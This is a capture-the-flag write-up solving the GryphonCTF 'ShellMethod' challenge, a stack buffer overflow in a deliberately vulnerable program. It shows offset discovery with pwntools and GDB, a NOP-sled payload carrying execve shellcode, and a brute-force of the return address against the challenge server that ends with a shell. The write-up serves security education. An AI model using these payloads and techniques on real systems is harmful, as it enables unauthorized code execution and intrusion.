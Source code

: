 # ShellMethod
Pwn - 120 points

## Challenge 
> I've taken the previous challenge, tossed away the personality and replaced it with a stone cold robot AI.

> nc pwn2.chal.gryphonctf.com 17344

> Creator - @LFlare

[shellmethod-d01b4d0a3c844dfdaeca0bdb5fd243cf.c](shellmethod-d01b4d0a3c844dfdaeca0bdb5fd243cf.c)
[shellmethod-redacted-c6b75effab2d83da5a5a2d394a8d5c83](shellmethod-redacted-c6b75effab2d83da5a5a2d394a8d5c83)

## Solution

This is a good reference. http://tungpun.github.io/blog/2015/09/22/writeup-csaw-ctf-2015-pwn-precision/

### Offset

Fuzz for offset using pwntools and strace.

    $ pwn cyclic 200 > pwn_cyclic.txt

    $ cat pwn_cyclic.txt | strace shellmethod-redacted-c6b75effab2d83da5a5a2d394a8d5c83 
    ...
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61616172} ---

    $ pwn cyclic -l 0x61616172
    68

This gives me 68. Let's confirm it.

    $ python -c 'print "\x00"*68 + "DCBA"' | strace ./shellmethod-redacted-c6b75effab2d83da5a5a2d394a8d5c83
    ...
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41424344} ---


---

### Return value (GDB)

Alright! Next we need to find the address of `char command[64]` for our return address.

    (gdb) run < pwn_cyclic.txt
    Starting program: /FILES/shellmethod < pwn_cyclic.txt
    Program received signal SIGSEGV, Segmentation fault.
    0x61616172 in ?? ()

    (gdb) info frame
    Stack level 0, frame at 0xffffd7ac:
     eip = 0x61616172; saved eip = 0x61616173
     called by frame at 0xffffd7b0
     Arglist at 0xffffd7a4, args: 
     Locals at 0xffffd7a4, Previous frame's sp is 0xffffd7ac
     Saved registers:
      eip at 0xffffd7a8

    (gdb) x 0xffffd7a8
    0xffffd7a8: 0x61616173

Now we can find the starting location of the array

    $ pwn cyclic -l 0x61616173
    72

    (gdb) x 0xffffd7a8-72
    0xffffd760: 0x61616161

Hence, the return address is exactly at `0xffffd760`. We have some leeway due to the NOP sleds

I'll try the [21-byte shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php)

    "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

Crafting our initial shellcode, we get this

    $ (python -c 'print "\x90"*32 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A"*(68-32-21) + "\x60\xd7\xff\xff"') > payload_shellcode

    $ gdb ./shellmethod
    
    (gdb) run <payload_shellcode 
    Starting program: /FILES/shellmethod <payload_shellcode
    HELLO. I AM SMARTBOT ALPHA 0.1.0.
    PLEASE STATE YOUR COMMAND.
    Your response? process 27527 is executing new program: /bin/dash
    [Inferior 1 (process 27527) exited normally]

Nice, our shellcode is working in GDB! But when we try without GDB, it doesn't work.

    cat payload_shellcode | ./shellmethod 
    HELLO. I AM SMARTBOT ALPHA 0.1.0.
    PLEASE STATE YOUR COMMAND.
    Your response? ls
    Segmentation fault

[The GDB environment variables are offsetting the addresses](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it). Unfortunately, I could not calculate the address without GDB.

---

### Return value (Bruteforce)

Heck it, I'm going to bruteforce the address. I wrote a Python script using pwntools library to bruteforce the return address.

    $ python bruteforce_addr.py

Concept is simple! If the payload does not work, there will be EOF error. If there's no error, start an interactive shell for the user.

Sadly, there are false positives, and a human needs to come in to try out every now and then. In that case, hit `Ctrl+C` and let the bruteforce continue.
    
    [+] Opening connection to pwn2.chal.gryphonctf.com on port 17344: Done
    [*] 
    [*] Passed: 0xffffddcf
    [*] Switching to interactive mode
     $ ls
    [*] Got EOF while reading in interactive
    $ ^C
    [*] Interrupted
    [+] Opening connection to pwn2.chal.gryphonctf.com on port 17344: Done
    [*] Failed: 0xffffddce
    [*] Closed connection to pwn2.chal.gryphonctf.com port 17344

Eventually, I reached a true positive.

    [*] Failed: 0xffffdd51
    [*] Closed connection to pwn2.chal.gryphonctf.com port 17344
    [+] Opening connection to pwn2.chal.gryphonctf.com on port 17344: Done
    [*] 
    [*] Passed: 0xffffdd50
    [*] Switching to interactive mode
     $ ls
    flag.txt
    shellmethod
    $ 

Woot! Rewrite the payload!

    $ (python -c 'print "\x90"*32 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(68-32-21) + "\x50\xdd\xff\xff"';) > payload_shellcode_server

    $ (cat payload_shellcode_server; cat) | nc pwn2.chal.gryphonctf.com 17344
    HELLO. I AM SMARTBOT ALPHA 0.1.0.
    PLEASE STATE YOUR COMMAND.
    Your response? ls
    flag.txt
    shellmethod
    cat flag.txt
    GCTF{5h3llc0d35_4r3_ju57_4553mbly}

## Flag
`GCTF{5h3llc0d35_4r3_ju57_4553mbly}`